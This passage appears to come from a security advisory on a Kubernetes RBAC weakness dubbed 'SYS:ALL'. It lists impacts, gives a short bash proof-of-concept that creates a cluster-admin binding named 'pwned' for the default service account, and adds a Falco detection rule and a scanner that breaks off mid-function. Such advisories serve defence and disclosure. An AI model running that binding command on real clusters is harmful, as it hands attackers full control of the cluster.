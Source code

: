 1. **Complete Cluster Compromise**
   - Access to all secrets and configurations
   - Ability to deploy malicious workloads
   - Data exfiltration capabilities

2. **Lateral Movement**
   - Access to connected cloud resources
   - Service account key extraction
   - Cross-project resource access

## Proof of Concept

```bash
#!/bin/bash
# SYS:ALL Exploitation Script

# Step 1: Identify current context
kubectl config current-context

# Step 2: Check for vulnerable permissions
kubectl auth can-i '*' '*' --as=system:node:$(kubectl get nodes -o name | head -1 | cut -d'/' -f2)

# Step 3: Exploit if vulnerable
if [ $? -eq 0 ]; then
    echo "Cluster is vulnerable to SYS:ALL attack"
    kubectl create clusterrolebinding pwned --clusterrole=cluster-admin --serviceaccount=default:default
fi
```

## Detection Strategies

### Monitoring for Exploitation

```yaml
# Falco rule for detecting suspicious RBAC changes
- rule: Suspicious RBAC Modification
  desc: Detect unauthorized ClusterRoleBinding creation
  condition: >
    k8s_audit and
    ka.verb in (create, update) and
    ka.target.resource=clusterrolebindings and
    ka.user.name!=system:admin
  output: >
    Suspicious RBAC modification (user=%ka.user.name verb=%ka.verb 
    resource=%ka.target.resource)
  priority: WARNING
```

### Automated Scanning

```python
def scan_for_sys_all_vulnerability(kubeconfig_path):
    """Scan cluster for SYS:ALL vulnerability patterns."""
    
    import kubernetes
    from kubernetes import client, config
    
    config.load_kube_config(kubeconfig_path)
    rbac_api = client.RbacAuthorizationV1Api()
    
    # Check for dangerous system bindings
    bindings = rbac_api.list_cluster_role_binding()
    
    vulnerable_bindings = []
```